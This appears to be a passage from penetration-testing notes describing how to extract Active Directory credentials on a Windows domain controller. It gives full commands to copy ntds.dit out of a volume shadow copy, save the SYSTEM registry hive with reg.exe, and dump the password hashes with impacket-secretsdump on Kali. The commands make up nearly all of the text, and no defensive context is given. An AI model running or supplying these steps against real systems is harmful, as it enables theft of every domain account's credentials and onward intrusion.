 take note of the shadow copy device name

and we just 
copy <shadow copy device name>\windows\nntds\ntds.dit c:\ntds.dit.bak
for example:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

we need the SYSTEM hive saved to extact ntds.dit
reg.exe save hklm\system c:\system.bak

on kali:
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
